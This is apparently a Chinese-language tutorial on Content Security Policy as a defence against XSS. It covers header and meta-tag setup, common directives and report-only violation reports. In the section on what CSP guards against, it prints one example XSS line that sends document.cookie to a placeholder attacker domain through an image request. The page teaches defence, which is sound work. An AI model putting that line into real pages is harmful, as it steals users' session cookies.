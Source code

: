 ```yaml
---
title: CSP 浏览器内存安全策略
date: 2021-08-11 19:18:36
sidebar: auto
category: 
  - 软件安全
head:
  - - meta
    - name: keyword
      content: 内容安全策略(CSP),XSS防御
description: 内容安全策略(CSP)是一种web应用技术用于帮助缓解大部分类型的内容注入攻击，包括XSS攻击和数据注入等。
---
```


## 什么是CSP?  ##

这里一段定义是来自于MDN社区
> Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement or distribution of malware.

内容安全策略(CSP)是一种web应用技术用于帮助缓解大部分类型的内容注入攻击，包括XSS攻击和数据注入等，这些攻击可实现数据窃取、网站破坏和作为恶意软件分发版本等行为。该策略可让网站管理员指定客户端允许加载的各类可信任资源。

参考来源

https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

## 使用CSP的两种方式

 - 通过服务器 HTTP 头部的 Content-Security-Policy 来指定
 - 通过 HTML 文档的 meta 标签配置策略

 例如：

 使用 HTTP 头部，这里的 policy 为策略字符串

 ```
 Content-Security-Policy: policy
 ```

使用 HTML meta 标签的方式

 ```HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
 ```

 ## 主要防范目标

 CSP主要是防范 XSS 攻击，以及报告 XSS 攻击，如果页面存在漏洞让 JS 脚本注入，CSP 能限制脚本的运行，然后把损失降到最小

 

 ``` Javascript
 (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

 ```

 CSP 是通过限制加载到页面上的资源、域或者协议来实现的，例如，一旦入侵者找到漏洞注入了XSS攻击，入侵者可以通过 图片Ping的方式发送敏感信息到外部网站。CSP 可以指定允许信任域名下的图片、Script和样式表被加载到页面上，及时入侵者 XSS 入侵成功也无法通过这些方式发送数据，保证网站一定程度上安全。


另外 CSP 也提供了只允许加载指定协议，例如HTTPS的资源，否则自动跳转到 HTTPS 版本。


## 使用 CSP 


当我们需要使用CSP生效就需要编写相应的策略，策略包括一系列指令组成和设置定的值组成。

例如，一个网站管理者允许内容来自信任的域名及其子域名 

```
Content-Security-Policy: default-src 'self' *.trusted.com

```

我们再看一条策略：

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com

```

这条策略有4个指令 img-src 为图片资源，media-src 为视频媒体资源，script-src 为脚本资源。最重要的一个是 default-src 为所有的资源默认属性，这里设置为了 ‘self’ 的含义为所有的资源再不指定的情况下只能从自身域下加载。

## 资源

## 报告违规情况

CSP 提供了另外一个非常有用的模式 - 报告模式，如果在 HTTP 头部指定 Content-Security-Policy-Report-Only 可以将发生了任何违规的事件都会被报告出去，但是这个头部只会对报告生效，实际生效还是需要 在Content-Security-Policy 中指定。

在报告的策略中需要配置一个 report-uri 用于服务器接受违规报告情况，例如：


```

Content-Security-Policy: default-src 'self'; report-uri http://reportcollector.example.com/collector.cgi


```

浏览器会向 report-uri 中指定的地址使用 POST 发送一个 JSON 格式的数据包。


数据包格式如下：

``` JSON

{
  "csp-report": {
    "document-uri": "http://example.com/signup.html",
    "referrer": "",
    "blocked-uri": "http://example.com/css/style.css",
    "violated-directive": "style-src cdn.example.com",
    "original-policy": "default-src 'none'; style-src cdn.example.com; report-uri /_/csp-reports"
  }
}

```




